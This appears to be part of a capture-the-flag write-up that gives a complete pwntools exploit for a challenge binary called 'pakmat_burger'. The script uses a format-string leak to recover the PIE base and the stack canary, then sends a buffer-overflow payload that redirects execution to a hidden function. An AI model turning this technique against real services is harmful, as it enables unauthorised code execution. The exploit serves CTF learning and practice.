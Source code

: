 Complete exploit

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './pakmat_burger'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
os.environ["SECRET_MESSAGE"] = "YOKO"

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================


io = start()


secret = b"YOKO"
io.sendlineafter(b"Please enter your name:",b"%17$p%13$p")
io.recvuntil(b"Hi ")
main_addr = int(io.recv(14).decode(),16)
log.info("main_addr: " + hex(main_addr))


canary = int(io.recv(18).decode(),16)
log.info("CANARY: " + hex(canary))

elf.address = main_addr - elf.symbols.main
log.info("PIE: " + hex(elf.address))
io.sendlineafter(b"enter the secret message:",secret)
io.sendlineafter(b"order?",b"abcd")

secret_order = elf.symbols.secret_order

payload = b"A" * 0x25 + p64(canary) + b"B" * 8 + p64(secret_order + 5)

io.sendlineafter(b": ", payload)
io.interactive()
```
{: file='exploit.py'}
